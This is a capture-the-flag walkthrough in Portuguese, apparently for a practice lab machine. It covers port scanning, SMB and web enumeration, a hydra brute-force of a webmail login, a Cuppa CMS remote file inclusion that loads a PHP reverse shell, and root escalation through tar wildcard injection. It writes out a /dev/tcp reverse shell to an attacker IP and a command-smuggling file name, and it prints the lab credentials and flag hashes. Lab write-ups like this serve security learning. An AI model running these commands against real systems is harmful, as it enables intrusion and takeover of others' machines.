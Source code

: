 # SCANNING
Com o comando 
```Kali
sudo nmap -A -Pn -T5 -v 10.10.76.34
```
iniciamos o escaneamento mais abrangente, sem realizar o PING, nas 1000 portas comum, de forma agressiva
![Descrição da Imagem](Images/Pasted image 20250131173426.png)
## Informações Levantadas
**Portas Abertas**: 22, rodando um serviço SSH OpenSSH 7.2p2 Ubuntu 4ubuntu2.7
			80, rodando um serviço WEB Apache httpd 2.4.18
			110, rodando um serviço de email POP3 Dovecot pop3d
			139, rodando um serviço
			143, rodando um serviço de email Dovecot imapd
			445, , rodando um serviço Samba 4.3.11
**SO**: Ubuntu 4.4
# Enumeração
Ao acessar o serviço WEB encontramos uma página mas sem formas de exploração aparente
![[Pasted image 20250211172518.png]]
Realizamos então a enumeração do serviço SMB e descobrimos algumas coisas interessantes
```Kali
enum4linux -a 10.10.255.32
```
![[Pasted image 20250211172131.png]]
Conseguimos conectar no compartilhamento anonymous e identificamos um arquivo de log, que parece ser uma wordlist
```Kali
smbclient //10.10.255.32/anonymous -N
```
![[Pasted image 20250211172249.png]]
![[Pasted image 20250211132254.png]]
Realizamos a enumeração do serviço WEB com o **gobuster** e identificamos um serviço de email

```Kali
gobuster dir -u http://10.10.255.32 -w /usr/share/wordlists/dirb/big.txt
```

![[Pasted image 20250211132115.png]]

![[Pasted image 20250211125256.png]]
# Exploração
Tentaremos descobrir a credencial do usuário milesdyson (nome de um compartilhamento) com a wordlist encontrada em log1 com o **hydra**, utilizando o **Burp Suite** para analisar a requisição e montar a sintaxe
```Kali
hydra -l milesdyson -P /home/rosembrick/log1.txt 10.10.255.32 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect" -v -T64 -I
```

![[Pasted image 20250211125533.png]]

![[Pasted image 20250211125612.png]]

Após a tentativa, descobrimos a credencial e assim obtivemos acesso ao serviço de email
![[Pasted image 20250211124948.png]]
login: milesdyson   password: cyborg007haloterminator
Numa das primeiras mensagens, há uma senha do serviço SMB possivelmente
![[Pasted image 20250211125214.png]]

Conseguimos acesso ao compartilhamento do usuário milesdyson e obtemos acesso a um arquivo importante, chamado importan.txt com suposto diretório
![[Pasted image 20250211125717.png]]

![[Pasted image 20250211125803.png]]
Ao acessarmos o diretório encontramos esta página e assim, tentamos mais uma vez enumerar com o **gobuster**
![[Pasted image 20250211125822.png]]
Com o comando abaixo, identificamos uma página de login
```Kali
gobuster dir -u http://10.10.255.32/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/big.txt
```
![[Pasted image 20250211125057.png]]

![[Pasted image 20250211125924.png]]
Procuramos por exploits que explorem o serviço CUPPA CMS e identificamos um exploit para executar um RFI
![[Pasted image 20250211125443.png]]
Preparamos nosso exploit conforme descrição do script, alterando para o nosso host conforme se segue
![[Pasted image 20250211130055.png]]
Com um listener aberto no Kali e um servidor Python para que o alvo se conecte e faça o dowload do nosso reverse shell por PHP, acessamos a página abaixo
http://10.10.255.32/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.23.22.193:443/exploit_php.php
![[Pasted image 20250211125334.png]]
E assim, conseguimos acesso ao alvo pelo usuário www-data.
![[Pasted image 20250211124851.png]]
Capturamos a flag do user
![[Pasted image 20250211131725.png]]
**user:** 7ce5c2109a40f958099283600a9ae807
# Escalação de Privilégio
Realizamos uma enumeração interna com **linpeas.sh** baixado por um servidor python do nosso Kali
![[Pasted image 20250211132021.png]]
E identificamos esse script que realiza backup a cada 1 min com a ferramenta **tar**, passível de explorarmos para escalarmos privilégio
![[Pasted image 20250211124302.png]]

![[Pasted image 20250211124424.png]]
Verificamos que o binário **tar** executa um comando em cada ponto de verificação do backup
![[Pasted image 20250211124600.png]]
Para isso preparamos nosso script para escalarmos para root com o comando abaixo
![[Pasted image 20250211130324.png]]

```Kali
echo '#!/bin/bash > root_shell.sh
```
```Kali
echo 'bash -i >& /dev/tcp/10.23.22.193/4445 0>&1' >> root_shell.sh
```
Agora criaremos um **arquivo** chamado `--checkpoint-action=exec=bash root_shell.sh`, contendo o texto `/var/www/html` para que o `tar` executado dentro desse diretório, use o `--checkpoint`, e assim executar o nosso shell reverso `root_shell.sh`.
```Kali
echo "/var/www/html"  > "--checkpoint-action=exec=bash root_shell.sh"
```
![[Pasted image 20250211130505.png]]
Como o arquivo inicial `/home/milesdyson/backups/backup.sh`executa o binário **tar** a cada minuto, receberemos a shell de root em 1 minuto conforme abaixo.
![[Pasted image 20250211131601.png]]
Já com acesso ao root, capturamos a flag de root

![[Pasted image 20250211131643.png]]

**root:** 3f0372db24753accc7179a282cd6a949

